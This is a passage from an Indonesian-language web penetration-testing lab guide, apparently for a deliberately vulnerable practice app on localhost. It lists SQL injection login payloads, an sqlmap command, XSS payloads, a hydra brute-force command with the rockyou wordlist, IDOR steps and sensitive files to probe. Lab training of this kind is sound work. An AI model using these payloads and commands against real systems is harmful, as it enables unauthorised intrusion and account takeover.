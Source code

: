 #### 2.2 Pemetaan Fitur
Buat daftar endpoint yang ditemukan:
```
/login
/register
/search
/products
/basket
/admin
```

### 3. Identifikasi Kerentanan

#### 3.1 SQL Injection
**Tujuan**: Mengidentifikasi dan mengeksploitasi SQL Injection

1. Uji form login dengan payload:
   ```
   ' OR 1=1 --
   admin'--
   ```

2. Gunakan SQLmap untuk pengujian otomatis:
   ```bash
   sqlmap -u "http://localhost:3000/rest/products/search?q=test" --batch --dbs
   ```

#### 3.2 Cross-Site Scripting (XSS)
**Tujuan**: Menemukan dan mengeksploitasi kerentanan XSS

1. Uji kolom komentar/pencarian dengan payload:
   ```html
   <script>alert('XSS')</script>
   <img src=x onerror=alert(1)>
   ```

2. Coba simpan XSS di profil pengguna

#### 3.3 Broken Authentication
**Tujuan**: Menguji mekanisme otentikasi

1. Uji bruteforce login dengan hydra:
   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-post-form "/rest/user/login:email=^USER^&password=^PASS^:Invalid"
   ```

2. Coba reset password dengan email yang tidak terdaftar

### 4. Eksploitasi Lanjutan

#### 4.1 Insecure Direct Object Reference (IDOR)
1. Temukan endpoint yang menggunakan ID numerik
2. Ubah parameter ID untuk mengakses data pengguna lain

#### 4.2 Security Misconfiguration
1. Periksa file-file sensitif:
   ```
   /.git/HEAD
   /package.json
   /server.js
   ```
